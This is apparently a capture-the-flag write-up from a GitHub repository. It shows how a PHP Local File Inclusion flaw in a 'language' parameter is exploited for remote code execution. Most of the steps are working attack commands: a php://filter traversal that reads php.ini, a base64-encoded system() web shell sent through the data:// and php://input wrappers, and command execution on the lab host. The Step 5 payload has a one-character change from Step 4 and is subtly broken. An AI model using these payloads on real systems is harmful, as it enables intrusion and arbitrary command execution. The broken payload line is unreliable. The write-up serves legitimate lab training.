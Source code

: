 # PHP LFI to RCE Exploit Write-Up

This repository documents a step-by-step process to exploit a Local File Inclusion (LFI) vulnerability in a PHP web application to read sensitive files and achieve Remote Code Execution (RCE).

## Overview
The target is a web server running a PHP application at `http://94.237.58.172:47698`. The application has an LFI vulnerability in the `language` parameter, which allows reading arbitrary files and, with `allow_url_include` enabled, executing remote code.

## Steps

### Step 1: Discover LFI Vulnerability
Using `curl`, I accessed the `php.ini` file by exploiting the LFI vulnerability with a PHP filter to base64-encode the file content:
```bash
curl "http://94.237.58.172:47698/index.php?language=php://filter/read=convert.base64-encode/resource=../../../../etc/php/7.4/apache2/php.ini"
```
The response contained the base64-encoded php.ini file embedded in the HTML.
### Step 2: Save and Decode the File
I saved the HTML response (including the base64-encoded `php.ini`) to a file named `text.text`:
```bash
nano text.text
```
Then, I decoded the base64 content to extract the php.ini file:
```bash
base64 -d text.text > config.php
```
### Step 3: Check for `allow_url_include`

I inspected the decoded `php.ini` to confirm if `allow_url_include` was enabled:
`grep allow_url_include config.php`

![image](https://github.com/user-attachments/assets/53bb4fc4-39ed-43a5-8995-9b65955f9691)

`allow_url_include = On`. This setting allows including remote files, enabling potential RCE.

### Step 4: Achieve Remote Code Execution

I crafted a PHP payload to execute system commands via the `cmd` parameter:

```bash
echo '<?php system($_GET["cmd"]); ?>' | base64
```
`PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8+Cg==`.
Using the `data:// wrapper`, I included the base64-encoded payload and executed the `id` command:
```bash
curl -s 'http://94.237.58.172:47698/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id' | grep uid
```
![image](https://github.com/user-attachments/assets/f1dffee5-c6b0-4e02-9f32-31758e7a0c00)

I also tried an alternative method using POST with `php://input`:
```bash
curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://94.237.58.172:47698/index.php?language=php://input&cmd=id" | grep uid
```
![image](https://github.com/user-attachments/assets/1827af98-4e22-4b83-850f-794ccbf15d21)

Same output, confirming RCE.

### Step 5: Explore the File System

I listed the root directory to find interesting files:

```bash
curl -s 'http://94.237.58.172:47698/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVmKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=ls%20/'
```
_Explore more to get the flag._

## Notes
This exploit relies on `allow_url_include = On` and an LFI vulnerability.

The `data://` and `php://input` wrappers were used to bypass restrictions and execute code.

Always test exploits in controlled environments (e.g., CTFs like Hack The Box).

## Files
`text.text`: Raw HTML response containing base64-encoded `php.ini`.

`config.php`: Decoded `php.ini` file.


